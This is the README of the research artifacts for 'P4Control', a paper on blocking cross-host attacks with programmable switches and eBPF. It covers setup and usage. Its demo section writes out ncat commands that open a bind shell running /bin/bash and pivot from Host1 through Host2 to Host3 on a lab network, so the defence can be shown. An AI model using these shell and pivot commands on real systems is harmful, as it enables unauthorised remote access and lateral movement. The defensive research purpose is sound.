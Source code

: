 # P4Control

This repository contains the artifacts for the paper titled "P4Control: Line-Rate Cross-Host Attack Prevention via In-Network Information Flow Control Enabled by Programmable Switches and eBPF", accepted at 45th IEEE Symposium on Security and Privacy (IEEE S&P / Oakland), 2024. For questions, please reach out to [Osama Bajaber](mailto:obajaber@vt.edu).

## Dependencies
- Python 3.7 
- Tofino Switch SDE 9.7.0
- BCC (Linux 5.15.0)
- Bison 3.8.2
- Flex 2.6.4
- Scapy 2.4.5

## Setup
Current settings assume three hosts are linked to the Tofino switch, each assigned with the following IP addresses and labels. (feel free to adjust these settings as per your topology)
- ```Host1```, 10.0.0.1, Label={HOST1}
- ```Host2```, 10.0.0.2, Label={HOST2}
- ```Host3```, 10.0.0.3, Label={HOST3}

## How to use

### Run P4 Switch program
Ensure that the Tofino switch SDE is installed and set the environment variables `SDE=~/bf-sde-9.7.0/` and `SDE_INSTALL=~/bf-sde-9.7.0/install`. Note: The `p4_build.sh` and `run_switchd.sh` scripts can be found within your SDE directory `/bf-sde-9.7.0/`.

Step 1: Build the P4 program
```
./p4_build.sh -p switch/p4control.p4
```

Step 2: Run the switch program in the Tofino switch
```
./run_switchd.sh -p p4control
```

Step 3: Start the control plane
```
python3 switch/controller.py
```

This will load ```P4Control``` in the designated Tofino switch and run the control plane. The current control plane code inserts the needed ```NetCL``` policies to block traffic between ```Host1``` and ```Host3```.

### Run eBPF-based host agent

Now, as the switch program is running, load the eBPF host agent to the hosts. We tested the host agent on Ubuntu 20.04.1 LTS, but it should work with other versions. Make sure to update the correct interface name in ```host_agent/host_agent.py```.

Step 0: ```host_agent/host_agent_ebpf.c``` provides the ability to manually label a specific PID with a custom DIFC label for easy configuration

In your opened terminal, check the PID of the current bash process by executing the following
```
 ps
```
 
Copy the PID of the bash process to the defined ```TAGGED_TERMINAL``` variable at the top of ```host_agent/host_agent_ebpf.c```
```
u32 TAGGED_TERMINAL = <PID>;
```

Step 1: Run the host agent in all three hosts. The following command will attach all the needed eBPF programs inside the kernel
```
python3 host_agent/host_agent.py
```

### Perform a cross-host attack

To perform a cross-host attack from Host1 to Host3, using Host2 as a stepping stone

Step 1: In ```Host2``` and ```Host3```, start a ```ncat``` listener 
```
sudo ncat -nlvp 9999 -e /bin/bash
```

Step 2: From ```Host1```, connect to ```Host2```
```
sudo ncat 10.0.0.2 9999
```

Step 3: From ```Host1``` establish a session to ```Host3``` through ```Host2```
```
ncat 10.0.0.3 9999
```

P4Control will block the last connection as the label {Host1} is detected.

### Compile ```NetCL``` rules

To compile ```NetCL``` rules

Step 1: Run the following command
```
./netcl-compile -i <netcl_rules> -o <compiled_rules>
```

Step 2: To add the compiled rules to the switch, copy the content of ```<compiled_rules>``` to ```switch/netcl.py``` and re-run the control plane script
```
python3 switch/controller.py
```

### Run custom tools

We provide custom Scapy tools to send and receive customized packets with DIFC headers. These tools can be used to generate synthetic traffic to test the switch configurations

Step 1: At the receiving host, run the following to start sniffing packets
```
python3 custom-receive.py
```

Step 2: At the sending host, run the following command to send the custom packet
```
python3 custom-send.py <destination_IP> <label> <tracker> <message>
```


## Cite the paper

If you like or use our work, please cite us using:

```
@INPROCEEDINGS {bajaber2024p4control,
author = {O. Bajaber and B. Ji and P. Gao},
title = {P4Control: Line-Rate Cross-Host Attack Prevention via In-Network Information Flow Control Enabled by Programmable Switches and eBPF},
booktitle = {IEEE Symposium on Security and Privacy (S\&P)},
year = {2024},
pages = {146-146},
}
```
